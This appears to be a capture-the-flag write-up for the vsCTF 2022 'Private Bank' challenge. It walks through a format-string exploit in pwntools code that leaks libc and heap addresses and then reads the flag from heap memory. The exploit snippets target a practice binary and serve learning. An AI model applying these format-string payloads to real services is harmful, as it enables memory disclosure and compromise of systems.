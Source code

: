 # vsCTF 2022 - Private Bank

The zip [privatebank.zip](privatebank.zip) is the file published to player and [privatebank_docker.zip](privatebank_docker.zip) is the docker & solution & source code for this challenge.

### Difficulty: Easy

### Exploit

First, let's get the address of system and calculate the libc base address:

```python
p.recvuntil(b'Hint: ')
system_addr = int(p.recvline()[:-1], 16)
libc.address = system_addr - libc.sym['system']
log.info(hex(libc.address))
```

For this challenge, we need to get the address of heap to read the flag with format string `%s`. When debuging with gdb-gef, we can get the static address of heap with command `vmmap`:

![get-static-heap-address.png](images/get-static-heap-address.png)

And use command `search-pattern` of gdb-gef (or `search` of pwndbg) to search for address of heap in libc or stack. First search for `0x55555555c0`:

![search-pattern.png](images/seach-0x55555555c0.png)

There is one address of libc contains address start with `0x55555555c0`. The offset can be calculated as:

```python
>>> 0x7ffff7fb0388 - 0x007ffff7d98000
0x218388
```

Let's try to leak that address out:

```python
payload = b'1%7$s' + p64(libc.address + 0x218388)
p.sendafter(b'Cabinet number: ', payload)

p.recvuntil(b'number: 1')
leak_stack_addr = u64(p.recv(6) + b'\x00\x00')
log.success("Leak heap: " + hex(leak_stack_addr))
```

![first-leak-heap.png](images/first-leak-heap.png)

Hm that's not heap address. Let's search for another libc or stack address. Second search of `0x55555555c1` gives no result:

![search-0x55555555c1.png](images/search-0x55555555c1.png)

Third search with `0x55555555c2`:

![search-0x55555555c2.png](images/search-0x55555555c2.png)

There are some heap address on stack. However, because we can only leak 2 times so leaking stack will be impossible. Keep searching with and when we search pattern with `0x55555555c5`, there is some address in libc:

![search-0x55555555c5.png](images/search-0x55555555c5.png)

The offset for this address is:

```python
>>> 0x7ffff7fb0cc0 - 0x007ffff7d98000
0x218cc0
```

Let's try to leak that with the code above:

![second-leak-heap.png](images/second-leak-heap.png)

Nice, that's the heap address. Let's calculate the offset for that heap with address of flag (use the static address when debug with gdb-gef):

![get-offset-heap.png](images/get-offset-heap.png)

So offset is `0x2e0`. Let's get flag:

```python
heap_flag = leak_heap - 0x2e0
log.success("Heap contains flag: " + hex(heap_flag))
payload = b'%9$s1234'
payload += p64(heap_flag)
p.sendafter(b'Key: ', payload)
```

That's all for this challenge. Thanks for playing!